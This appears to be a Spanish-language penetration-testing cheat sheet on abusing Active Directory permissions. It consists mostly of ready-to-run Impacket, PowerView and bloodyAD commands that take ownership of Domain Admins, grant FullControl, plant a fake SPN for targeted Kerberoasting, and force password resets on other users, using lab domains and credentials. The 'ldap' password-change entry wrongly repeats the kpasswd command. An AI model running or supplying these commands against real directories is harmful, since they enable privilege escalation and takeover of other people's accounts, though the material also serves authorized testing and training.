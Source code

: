 # Info

Si tenemos acceso a la máquina solo mediante winrm, evil-winrm tiene muchos problemas de sesión, para no perder tiempo: Usar directamente las herramientas de linux.

# Desde Linux

### Impacket

#### Cambiar el ownership
    impacket-owneredit -action write -new-owner 'aaru' -target-dn 'CN=Domain Admins,CN=Users,DC=ignite,DC=local' 'ignite.local'/'aaru':'Password@1' -dc-ip 192.168.1.6

#### Darse full control

    impacket-dacledit -action 'write' -rights 'FullControl' -principal 'sakshi' -target-dn 'CN=ankur,CN=Users,DC=ignite,DC=local' 'ignite.local'/'sakshi':'Password@1' -dc-ip 192.168.1.6
# Desde windows

### Powerview

#### Tomar control
    Set-DomainObjectOwner -Identity 'roma' -OwnerIdentity 'sameer'

#### Darse full control

    Add-DomainObjectAcl -Rights 'All' -TargetIdentity "roma" -PrincipalIdentity "sameer"

---

# Explotación/abuso
## Kerberoasting
#### 1) Creamos un spn falso sobre el usuario

    Set-DomainObject -Identity 'roma' -Set @{serviceprincipalname='mydomain/Testing'}
#### 2) Kerberosteamos y crackeamos.

## Cambiar contraseña del user

### BloodyAD
    bloodyAD --host "192.168.1.6" -d "ignite.local" -u "sakshi" -p "Password@1" set password "ankur" "Password@987"

### Impacket
#### Cambiar mediante kpasswd
    impacket-changepasswd -reset -protocol kpasswd contoso.local/j.doe@DC1 -newpass 'N3wPassw0rd!' -altuser CONTOSO/SrvAdm
#### Cambiar mediante ldap
    impacket-changepasswd -reset -protocol kpasswd contoso.local/j.doe@DC1 -newpass 'N3wPassw0rd!' -altuser CONTOSO/SrvAdm
